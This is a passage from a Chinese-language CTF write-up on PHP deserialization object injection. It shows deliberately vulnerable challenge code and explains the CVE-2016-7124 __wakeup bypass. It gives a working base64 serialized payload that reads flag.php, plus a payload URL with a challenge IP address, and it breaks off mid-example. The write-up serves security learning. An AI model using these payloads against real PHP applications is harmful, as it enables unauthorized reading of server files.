 payload:`http://120.79.33.253:9001/?str=s:7:%22D0g3!!!%22`

## 0x02 反序列化对象注入

### 绕过__wakeup()方法

```
<?php 
class SoFun{ 
  protected $file='index.php';
  function __destruct(){ 
    if(!empty($this->file)) {
      if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
        show_source(dirname (__FILE__).'/'.$this ->file);
      else
        die('Wrong filename.');
    }
  }  
  function __wakeup(){
   $this-> file='index.php';
  } 
  public function __toString()
    return '' ;
  }
}     
if (!isset($_GET['file'])){ 
  show_source('index.php');
}
else{ 
  $file=base64_decode($_GET['file']); 
  echo unserialize($file); 
}
 ?> #<!--key in flag.php-->
```

分析一下源码，`__destruct`方法中`show_source(dirname (__FILE__).'/'.$this ->file);`会读取file文件内容，我们需要利用这里来读flag.php，思路大概就是构造序列化对象然后base64编码传入，经过unserialize将file设为flag.php，但是`__wakeup`会在unserialize之前执行，所以要绕过这一点。

这里就要用到CVE-2016-7124漏洞，**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

构造序列化对象：O:5:"SoFun":**1**:{S:7:"\00*\00file";s:8:"flag.php";}
**绕过__wakeup**：O:5:"SoFun":**2**:{S:7:"\00*\00file";s:8:"flag.php";}

注意：因为file是protect属性，所以需要加上\00*\00。再base64编码。
payload：Tzo1OiJTb0Z1biI6Mjp7Uzo3OiJcMDAqXDAwZmlsZSI7czo4OiJmbGFnLnBocCI7fQ==

这里可以自己写一个相对简单的例子来加以理解

```
<?php 
    error_reporting(0);
    class Twosmil1e{
        public $key = 'twosmi1e';
        function __destruct(){
            if(!empty($this->key)){
                if($this->key == 'twosmi1e')
                    echo 'success';
            }
        }
        function __wakeup(){
            $this->key = 'you failed 23333';
            echo $this->key;
        }
        public function __toString(){
            return '';
        }
```